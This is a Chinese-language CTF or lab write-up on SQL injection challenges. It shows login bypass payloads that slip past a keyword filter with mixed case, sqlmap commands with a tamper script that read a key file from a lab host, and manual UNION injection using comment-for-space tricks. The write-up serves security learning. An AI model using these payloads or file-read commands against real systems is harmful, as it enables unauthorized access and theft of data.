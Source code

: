 ![image-20241127165650518](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241127165650518.png)

### *34051 注入（万能密码登录）

![image-20241124180300033](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124180300033.png)

测试万能密码，发现对`or`和`#`有过滤

![image-20241124190631274](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124190631274.png)

尝试双写，失败

尝试大小写混合

![image-20241124190955745](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124190955745.png)

#注释过滤的话考虑进行后闭合 `username=1' Or '1'='1'&password=2`，此注入点不成功

对password万能密码尝试且闭合    `username=1&password=2' Or '1'='1`

![image-20241124191338122](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124191338122.png)

## 34041 - 34045、34213、34224

### 34041 注入

![image-20241124192113641](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124192113641.png)

一、sqlmap注入

```
sqlmap.py -u http://11.1.10.13:34041/vulnerabilities/fu1.php?id=1 --file-read /tmp/360/key --batch 
```

![image-20241124213722702](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124213722702.png)

根据提示添加修改

```
sqlmap.py -u http://11.1.10.13:34041/vulnerabilities/fu1.php?id=1 --file-read /tmp/360/key --batch --tamper=space2comment
```

![image-20241124214244995](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124214244995.png)



访问保存位置，得到key:8b3h4a7v

二、手工注入

采用order by爆列数，发现空格被过滤，采用`/**/`替换

![image-20241124215206830](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124215206830.png)

爆出4列，采用union select爆注入点![image-20241124215613653](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124215613653.png)
